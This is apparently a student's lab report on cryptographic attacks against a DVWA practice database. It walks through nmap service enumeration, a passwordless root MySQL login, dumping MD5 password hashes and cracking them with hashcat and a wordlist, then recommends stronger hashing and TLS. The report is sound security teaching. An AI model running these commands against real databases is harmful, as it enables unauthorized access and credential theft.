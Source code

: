 
# 🔐 Lab 2: Cryptographic Attacks – Cracking Weak Password Hashes & Exploiting Poor Authentication in Databases

**👨‍💻 Author**: Raja Muhammad Haiqal Shah Bin Raja Muzairil Shah  
**📅 Date**: 25 April 2025  
**⏳ Time Allocation**: 3 Hours  
**📝 Total Marks**: 15  
**🧩 Lab Type**: Hands-On + Report + Demo/Debrief  

---

## 🧠 A. Lab Objectives

1. Identify and exploit cryptographic weaknesses in database authentication and password storage.
2. Perform offline hash cracking after discovering password hashes in a vulnerable database.
3. Investigate real-world cryptographic failures and propose secure solutions.
4. Document findings clearly in GitHub (Markdown) and present a short demo/debrief.

---

## 🛠️ Tools Used

- `Kali Linux` (OS)
- `nmap` (Service enumeration)  
- `mysql-client` (Database access)  
- `hashid` / `hash-identifier` (Hash detection)  
- `hashcat` / `john` (Hash cracking)  
- `wireshark` (Traffic analysis – optional)

---

## 🌐 IP Addresses

- **Attacker**: 192.168.106.130  
- **Victim**: 192.168.106.138  

---

## 🧩 B. Lab Tasks

### 1. 🔍 Service Enumeration and Initial Access

**Command Used:**

```bash
nmap -sV -p 3306 192.168.106.138 > nmap.txt
```

- Identified that **MySQL** was running on port **3306**.
- Confirmed open port and service details were written to `nmap.txt`.

![nmap](Screenshots/nmap.png)

**Connection Attempt:**

```bash
mysql -h 192.168.106.138 -u root --password=""
```

**Error Encountered:**
```
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

**Fix:**

```bash
mysql -h 192.168.106.138 -u root --password="" --ssl=0
```

![fixcommand](Screenshots/fixcommand.png)

✅ **Resolved**: TLS version mismatch between client and server.

> **Root Cause**:  
> MySQL < 5.7.11 does not support `--ssl-mode`. Use `--ssl=0` instead to disable SSL handshake.

---

### 2. 🧑‍💻 Enumeration of Users and Authentication Weaknesses

```sql
USE dvwa;
SHOW TABLES;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+

SELECT * FROM users;
```

- Found the `users` table containing usernames and **MD5 password hashes**.
- Chose user `admin` for further cracking.

![usernpass](Screenshots/usernpass.png)

**Saved hash to file:**

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

> ⚠️ **Reflection Question**:  
> Is accessing a database with no password a cryptographic failure?  
> ✅ **Yes**. It violates secure authentication practices by allowing unauthorized access due to missing or weak credentials.

---

### 3. 🔍 Password Hash Discovery & Identification

Used `hash-identifier`:

```bash
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99
```

- Detected as **MD5** hash.

![hashidentifier](Screenshots/hashidentifier.png)

> ⚠️ **Reflection Question**:  
> What cryptographic weaknesses exist in this hashing method?  
> - MD5 is **unsalted** and **fast**, making it susceptible to rainbow table and brute-force attacks.

---

### 4. 🧨 Offline Hash Cracking

Used **hashcat** to brute-force the MD5 hash:

```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
>- m 0 = specify the md5 hash
>- a 0 = using dictionary attack
>- /rockyou.txt = path to word list.

```bash
hashcat -m 0 hash.txt --show > cracked_results.txt
```

✅ **Result:**
```text
5f4dcc3b5aa765d61d8327deb882cf99:password
```

![hashcatresult](Screenshots/hashcatresult.png)

**Cracked Password**: `password`

> Password entropy is low. "password" is one of the most common weak passwords.

---

### 5. 🔐 Cryptographic Analysis & Mitigation

#### 🔎 Identified Weaknesses:

| Component     | Issue                         |
|---------------|-------------------------------|
| Authentication | Empty/Weak passwords          |
| Hashing        | MD5 without salt              |
| Transmission   | Plaintext over network        |

#### 🔧 Recommendations:

- **Authentication**: Enforce strong password policies, apply rate-limiting or use `fail2ban`.
- **Hashing**: Replace MD5 with **bcrypt** or **Argon2** (both are memory-hard and slow).
- **Transmission**: Enable **SSL/TLS** encryption for database connections.

#### 🕵️ Wireshark Observation:

Captured raw data during database login. Password hashes and queries visible in plaintext.

![wireshark](Screenshots/wirehark.png)

---

## ✅ Conclusion

This lab demonstrated real-world cryptographic vulnerabilities that still exist in poorly configured systems. Weak authentication, outdated hashing, and unencrypted transmissions can all be exploited easily by attackers.

Securing such systems involves:
- Enforcing authentication best practices,
- Adopting strong, salted password hashing,
- Ensuring secure encrypted communication channels.

**Always audit legacy systems for these cryptographic flaws.** 🔐

---

🧠 *"Attack like a black hat. Defend like a white hat."* – Haiqal

